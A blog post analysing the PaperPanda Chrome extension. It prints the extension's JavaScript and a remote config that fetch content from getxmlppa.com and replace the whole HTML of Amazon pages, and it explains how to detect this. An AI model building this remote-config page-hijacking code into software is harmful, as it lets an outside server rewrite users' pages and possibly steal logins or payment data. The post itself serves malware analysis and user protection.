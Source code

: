 ```yaml
---
title: PandaPaper turns malicious
subtitle: Chrome extension modifies HTML and tries to hide it
author: maave
type: post
draft: true
date: 2025-01-28
categories:
  - Projects
tags:
    - Chrome
    - extension
    - security
    - reverse engineering
---
```


{{< image src="/uploads/2025/paper-panda-dead.webp" alt="paper panda logo with X for eyes">}}

The "paywalling" of scientific research papers is (an ongoing problem)[] that hinders learning, hinders scientific research, and leaches profit from publicly-funded research. PaperPanda is a Chrome extension to download academic papers. Its intention is to find free links for published papers. 

However what PaperPanda does under-the-hood tells another story. I've unearthed malicious code in PaperPanda's Chrome extension and attempts to hide said malicious activity. This extension tried to modify my Amazon pages and it is clearly malicious - possibly even a phisher or credit-card stealer. If you have this extension *UNINSTALL IT*. In this post I'll explain how this extension is malicious and how it hides that behavior.

<!--more-->

## Strange redirect

This morning I was just browsing the internet with Google Chrome. The regular - procrastinating on StackExchange Hot Network Questions - and I came across an old-English word I've never seen. So I highlighted the word, right clicked, and selected "Search Google for _____". Instead of going to Google, my search went to Yahoo. Huh? I checked the history and found a very suspicious domain: `search-yahoo-now.com`. My search was hijacked. Sound the alarm, we have a breach!

`https://search-yahoo-now.com/?guid=877e15a82fa0a426bfd4ce9a6d96625e4&ext=9&domain=google.com&cid=html&rdd=15&q=iwur%C3%B0ge`

I searched this domain on Google and found only one useful result: a reddit post that insinuated that PaperPanda was responsible. After checking the extension's recent reviews I saw multiple complaints about this. Case closed? Hell no, I need to know the extent of this hack. I'm going to rip this app apart, get proper evidence, and then lay blame.

## Extension investigation

Going into my Chrome profile folder, I searched the contents of all my extensions looking for something. I tried searching for this string. I couldn't find any instance of it, not in plaintext or base64 encoded (a common obfuscation technique). Unfortunately I have too many installed and can't audit the code for every single one.

Since I had a tip, but not proof, that it was PaperPanda, I did an in-depth review of the code. Chrome extensions are made with HTML and Javascript and hosted in the app data folder.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions`

PaperPanda's extension ID is `ggjlkinaanncojaippgbndimlhcdlohf` and the malicious version is `2.1.6`.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf\2.1.6_0`

Fortunately, viewing the code for a Chrome extension is easy and there aren't too many files. Unfortunately the code is "minified" which compacts the code and replaces function and variable names. I used Notepad++ with the plugin JSTools for formatting. A Javascript formatter will make it readable but the single-letter names are still difficult.

### Main files

`content.js` calls `background.js` which fetches a config from an external website `getxmlppa.com`. There are two endpoints, "config.php" and "install.php". The "install" endpoint appears unused and the endpoint returns nothing. The "config" is used directly by the extension and returns a JSON object.

#### File contents

<details>
  <summary>background.js</summary>

```
(function () {
    "use strict";
    const o = "https://getxmlppa.com/";
    async function i(n = !1) {
        const c = `${o}config.php?` + Date.now(), {
            config: t,
            configTimestamp: e
        } = await chrome.storage.local.get(["configTimestamp", "config"]);
        if (!n && Date.now() - (e || 0) < 3e5)
            return t;
        const a = await fetch(c).then(s => s.json());
        return chrome.storage.local.set({
            config: a,
            configTimestamp: Date.now()
        }),
        a
    }
    i(!0),
    chrome.runtime.onMessage.addListener((n, c, t) => {
        if (n === "get-config")
            return i().then(e => t(e)), !0
    }),
    chrome.runtime.onInstalled.addListener(function (n) {
        n.reason === "install" && fetch(`${o}install.php`)
    })
})();
```
</details>

<details>
  <summary>content.js</summary>

```
(function () {
    "use strict";
    let f = l();
    async function l() {
        return await chrome.runtime.sendMessage("get-config")
    }
    async function m() {
        document.location.hostname;
        var o = document.documentElement.innerHTML;
        function a(t, e) {
            if (!e || e === e) {
                var n = t.exec(o);
                if (n && n.length > 1)
                    return n[1]
            }
            return !1
        }
        function s() {
            var t,
            e = ["citation_doi", "doi", "dc.doi", "dc.identifier", "dc.identifier.doi", "bepress_citation_doi", "rft_id", "dcsext.wt_doi"],
            n = document.getElementsByTagName("meta");
            return Array.prototype.forEach.call(n, function (r) {
                if (r.name && !(e.indexOf(r.name.toLowerCase()) < 0) && !(r.scheme && r.scheme.toLowerCase() !== "doi")) {
                    var c = r.content.replace("doi:", "").replace(/https?:\/\/(www\.)?doi\.org\//i, "").trim();
                    c.indexOf("10.") === 0 && (t = c)
                }
            }),
            t ? (console.log("found a DOI from a meta tag: " + t), t) : null
        }
        async function i() {
            for (var t = (await f).p, e = 0; e < t.length; e++) {
                var n = t[e],
                r = a(new RegExp(n.regex), n.host);
                if (r)
                    return r
            }
            return null
        }
        async function d() {
            for (var t = [s, i], e = 0; e < t.length; e++) {
                var n = await t[e]();
                if (n)
                    return n
            }
            return null
        }
        var u = await d();
        return u
    }
    function g(o) {
        if (document.readyState !== "loading") {
            o();
            return
        }
        document.addEventListener("DOMContentLoaded", o)
    }
    function p(o) {
        return o.replace(/{[\w.]+}/, a => {
            const i = a.substr(1, a.length - 2).split(".").reduce((d, u) => d[u], window);
            return encodeURIComponent(i)
        })
    }
    const v = document.location + "";
    g(async() => {
        const o = (await f).s;
        function a() {
            for (const i of o)
                new RegExp(i.pattern, "gi").test(v) && [...document.querySelectorAll(i.selector)].filter(e => !e.hasAttribute("skip-element")).forEach(e => {
                    const n = e.style.display;
                    e.style.display = "none",
                    e.setAttribute("skip-element", !0),
                    fetch(p(i.url)).then(r => r.text()).then(r => {
                        const c = r.trim();
                        c && (e[i.attr] = c)
                    }).catch(() => {}).then(() => e.style.display = n)
                })
        }
        a(),
        new MutationObserver(() => a()).observe(document.body, {
            childList: !0,
            subtree: !0
        })
    }),
    chrome.runtime.onMessage.addListener((o, a, s) => {
        if (o === "get-doi")
            return m().then(i => s(i)), !0
    })
})();
```
</details>

<details>
  <summary>response from config.php aka config.json</summary>

```
{
  "p": [
    {
      "regex": "\"doi\":\"([^\"]+)\"",
      "host": "ieeexplore.ieee.org"
    },
    {
      "regex": "SDM.doi\\s*=\\s*'([^']+)'",
      "host": "sciencedirect.com"
    },
    {
      "regex": "href=\"/doi/(10\\..+?)\"",
      "host": "psycnet.apa.org"
    },
    {
      "regex": "https?:\\/\\/doi.org\\/(10\\.\\d+\\/.*)",
      "host": "cairn.info"
    },
    {
      "regex": "article:article:(10\\.\\d+[^;]*)",
      "host": "inderscienceonline.com"
    }
  ],
  "s": [
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "html",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "head",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "body",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    }
  ]
}
```
</details>

### Code breakdown

background.js contains code to fetch a JSON config from a remote website. The first thing I did was check the endpoints. I visited the url `https://getxmlppa.com/config.php` directly without any HTTP parameters. This config endpoint returned different information the first and second time I queried it. My original response is posted above, formatted for easier reading, no changes were made besides the whitespace formatting.

The first result included _regex to match Amazon URLs_ in the "s" array. When I queried it a second time, __the "s" array was empty__. Wow. We already found suspicious activity just by visiting a link. I cannot replicate this because the app loads content dynamically. The website is **INTENTIONALLY HIDING** its activity. I think I got lucky and I fetched the cached version on the first attempt.

I'm off to a good start. I was expecting Google or Yahoo links but I got Amazon. PaperPanda should not be touching Amazon URLs _ever_. I also found a new endpoint, `ama.php`

Let's walk through the code to determine what's it doing with this config. The suspect code is in content.js in the areas `g(o)`, `p(o)`, and the `g(async() => {` functions. The function `g(o)` creates a listener for page loading, then executes the async() function that was passed to it.

In this config JSON, the "p" array is used legitimately by the extension when you click the extension and "download this paper". "s" array is suspect and is used on page-load to replaces part of the HTML contents. I'll explain what the JS code is doing:

1. add an event listener for DOMContentLoaded, to run after the page loads
2. check if the current URL matches a grep pattern (var "pattern" from array "s") and check if element has "skip-element" attribute
3. select HTML elements (using var "selector")
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch remote content (from var "url")
7. replace one of the element's attributes (var "attr") with new content
8. unhide element

This makes the behavior entirely dependent on the config. In my config it's attempting to replace the entire HTML document for Amazon URLs

```
{
  "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
  "selector": "html",
  "attr": "innerHTML",
  "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
},
```

recreating the steps with this config would cause this to happen:

1. add event listener DOMContentLoaded
2. check if URL matches amazon
3. select HTML element "html" (*the entire page*)
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch content from `https://getxmlppa.com/ama.php?p=amazon&u={location.href}`
7. replace attribute "innerHTML" (*all of the page's code*) with content fetched
8. unhide element

This is malicious. This is trying to replace the entirety of my Amazon pages with its own content. PaperPanda has no reason to touch Amazon links. Without that config, this piece of code looks benign. It could be explained away by saying the code is intended to place URLs (it could, theoretically, replace the "url" attribute in anchor elements). With this config it's clear that this extension targeting websites outside its intended use. It is **malicious** and **trying to hide its behavior by changing configs**.

The endpoint "ama.php" responds with a 200 response but doesn't return any data, even with the params filled in. I'm unsure if the endpoint is nonfunctional, or if it was intentionally disabled when the config was changed. So the real goal of this content replacement is unknown. This app could have been stealing logins, credit card info, etc. It could've replaced affiliate information with its own like the recent Honey shopping extension scam. It could've done anything with any page. This is not accidental and not a result of some kind of library-inclusion-attack. PaperPanda targeted Amazon links and tried to _replace the entire HTML content_.

## Check yourself

If you have a page which you suspect of being hijacked, don't reload yet. Right click, inspect, then Ctrl+F and search for "skip-element". This attribute is not standard. If "skip-element" is anywhere in your HTML elements it's because of PaperPanda.

Get the stored config data from the Chrome console. On any page, open the PaperPanda extension, right click on it, inspect. This should be inspecting the extension, the DevTools window that pops up should be titled `chrome-extension://ggjlkinaanncojaippgbndimlhcdlohf/popup.html` Then in the Console tab of DevTools type `chrome.storage.local.get(console.log)` to output the local storage for that app. In mine it's already updated so the "s" array is empty.

Another way to get to the extension data is in `chrome://extensions` with Developer Mode enabled. Scroll to PaperPanda, click the link to "service worker" which will open the DevTools. This DevTools window will open right to the Console tab and won't have a special title.

View the extension code yourself from chrome profile data. For me that's in: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Profile 1\Extensions\ggjlkinaanncojaippgbndimlhcdlohf` because I have multiple profiles. If you have a single profile in Chrome then it would be in the "Default" folder: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf`. The Javascript files have been minified so it needs to be formatted for reading. I used the Notepad++ plugin JSTool to format it. There are also plenty of JS formatters online. But the variable names and function names are still single letters so it's hard to follow.


## Conclusion

PaperPanda is hijacking web contents. I didn't find a Yahoo search redirect but instead I found an arbitrary page re-writer driven by a config that changes every time you load it. They attempt to evade detection by moving the payload to an external page. This garbage plugin has been installed on my Chrome for months and I only noticed because they performed a blatant redirect. Who knows what damage it caused, what information it stole, because it could have modified any website to have any content.